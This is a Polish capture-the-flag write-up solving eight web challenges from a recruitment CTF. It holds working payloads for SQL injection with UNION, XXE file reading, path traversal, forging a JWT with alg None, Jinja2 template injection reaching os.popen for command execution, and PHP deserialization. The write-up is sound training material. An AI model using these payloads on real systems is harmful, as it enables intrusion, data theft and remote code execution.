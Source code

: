 ```yaml
---
title: Zbiorczy CTF - rekrutacja BGK by sekurak
author: k1k9
categories: [web]
tags: [ctf]
---
```

CTF był pod adresem: http://139.177.183.71/bgk-ctf-31337/

## 1 - Xcross this
Po wejściu na stronę widzimy, że aplikacja pobiera od użytkownika dane, które potem wyświetla przy użyciu biblioteki MathJax ver. 2.7.0.
![alt text](/assets/posts/ctf_bgk/xcross_this1.png)

Dodatkowo jeżeli zajrzymy w kod strony zobaczymy niewidoczny link LogOut oraz skrypt w JS, który w zasadzie nic ciekawego nie robi.

Po kilku próbach exploitacji parametru XSS, przeszedłem do testowania tego tajemniczego linku:
```html
<a href="?LogOut=1" id="LogOut"></a>
```
I po przejściu na link otrzymujemy odpowiedź:
```json
{"error":"VVRGU1IxZ3pkRlJrU0VsM1ltMWtTbUpyTVdoa1IyZzJWMWM1TVZGWVNteG1VVzg5Q2c9PQo=\n"}
```
Na pierwszy rzut oka wygląda to jak base64 więc staram się to odszyfrować, okazuje się że flaga jest potrójnie zaszyfrowana basem ;)
```bash
echo "VVRGU1IxZ3pkRlJrU0VsM1ltMWtTbUpyTVdoa1IyZzJWMWM1TVZGWVNteG1VVzg5Q2c9PQo=" | base64 -d | base64 -d | base64 -d
```

## 2 - Cross site
Zadanie zostało prawdopodobnie wyłączone (nie udało mi się tam dostać), kod prowadzący do zadania 2:
```html
<!--<li>
    <input type="checkbox" id="task2" class="task-toggle">
    <label for="task2" class="task-title">2 - Cross-site</label>
    <div class="task-description">
        <p><a href="http://139.177.183.71:2000/"
                target-"_blank">Link do zadania</a></p>
    </div>
</li>-->
```

## 3 - Database
Po analizie kodu strony można zauważyć, że interesującym parametrem wydaje się być prametr ```?query=```.

Spróbowałem podać kilka typowych znaków, które mogą wywołąć błąd zapytania i okazuje się, że baza danych jest podatna po podaniu znaku ```'```, otrzymujemy wówczas komunikat: ```SQLITE_ERROR```. A więc przejdźmy do szperania w bazie.

### Sprawdzenie ilości kolumn
Po kilku minutach testowania widzę, że baza jest podatna na SQLi za pomocą ```UNION```. Więc przejdę do sprawdzenia co zawiera tabela z ofertami. W tym celu użyję polecenia:
```sql
test') UNION SELECT NULL,NULL,NULL,NULL--
```
Oczywiście NULL, zwiększamy dopóki strona nie przestanie zwracać błędu, ilość NULLi informuje nas o liczbie kolumn w tabeli.

### Ustalenie nazwy tabeli i kolumn
```sql
test') UNION SELECT (SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL),NULL,NULL,NULL--
```
otrzymujemy odpowiedź:
```sql
CREATE TABLE offers ( title TEXT, text TEXT, image TEXT, hidden BOOL )
```

### Wyciągnięcie flagi
No to pozostało nam pobranie wszystkich ofert i znalezienie tej jednej ukrytej:
```sql
XD') UNION SELECT title,text,image,hidden FROM offers--
```

## 4 - External Entity
Widzimy, że flaga ukryta jest w pliku ```/tmp/flag``` i musimy użyć do tego XML. Jak sama nazwa zresztą nam sugeruje strona jest podatna na XEE (XML External Entity).
![alt text](/assets/posts/ctf_bgk/external_entity.png)

Zatem spróbujemy dostać się do pliku z flagą wykorzystując XEE:
```xml
<!DOCTYPE k1k9[<!ENTITY example SYSTEM "/tmp/flag"> ]>
<creds>
    <user>&example;</user>
    <pass>admin</pass>
</creds>
```

## 5 - deardir
Po wejściu na strone dostajemy informacje o podaniu ścieżki w parametrze file, a jak zajrzymy w kod strony to widzimy, że flaga znowu jest ukryta w pliku ```/tmp/flag```. Jest to tradycyjny path traversal (```?file=../../../tmp/flag```).

## 6 - I'm brOken'
Widzimy panel logowania a w nim mamy podane dane logowania. Po zalogowaniu się strona ustawia nam ciasteczko session, podobne do tego:
![alt text](/assets/posts/ctf_bgk/im_broken.png)

Jest to ciekawe bo biorąc pod uwagę, że mam dane logowania i ustawiane jest ciasteczko JWT sugeruje to, że tutaj trzeba szukać jakiejś dziury. 

Poszperałem w internecie i znalazłem podatność CVE-2015-9235, która w zasadzie mówi nam, że wystarczy zmienić algorytm na None i usunąć część z sygnaturą.

Tak więc tworze nowe ciasteczko:
```bash
echo -n '{"alg":"None","typ":"JWT"}' | base64 | tr -d '='
echo -n '{"username":"admin","iat":1712129895}' | base64 | tr -d '=' 
```
Obie części łączę kropką i na końcu dodaje kropkę (dalej nic nie podaje bo pomijam sygnaturę). Efekt:
```bash
eyJhbGciOiJOb25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNzEyMTI5ODk1fQ.
```
Podmieniam ciasteczko na stronie i... nic. 
Okazuje się, że flaga jest ukryta w kodzie aplikacji, gdy wywołamy podatność to strona wygeneruje nam w HTML import pliku app.js i tutaj znajdziemy flagę.

## 7 - Welcome, I, you
Strona mówi nam aby podać swoje imię jako część URI: 
```/greeting/<imie>```.
Z nagłówków HTTP wiem, że strona stoi na:
```HTTP
Server: Werkzeug/3.0.1 Python/3.8.18
```
Tak więc spróbujmy coś tutaj wstrzyknąć. XSSa tutaj nie ma ale mamy SSTI (Server Side Template Injection). Czyli wykorzystując Pythona i template engine Jinja2. Szybka weryfikacja:
```HTTP
/greeting/{{config.items()}}
```
Działa, tak więc spróbujmy zrobić jakieś RCE:
```HTTP
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}
```
Otrzymujemy:

![alt text](/assets/posts/ctf_bgk/welcome_i_you.png)

Jak zrobimy ```ls -la``` to widzimy plik ```flag.txt```, który okazuje się być tym czego szukamy.

## 8 - Why s0 deserious?
No to tutaj spraw jest dużo prostsza wystarczy, że stworzymy sobie obiekt i wywołamy na nim funkcję serialize:
```php
<?php
class FileRead {
    public $file = '../flag.txt';
}

$object = new FileRead();
echo serialize($object);
?>
```
I przekażemy to jako parametr GET.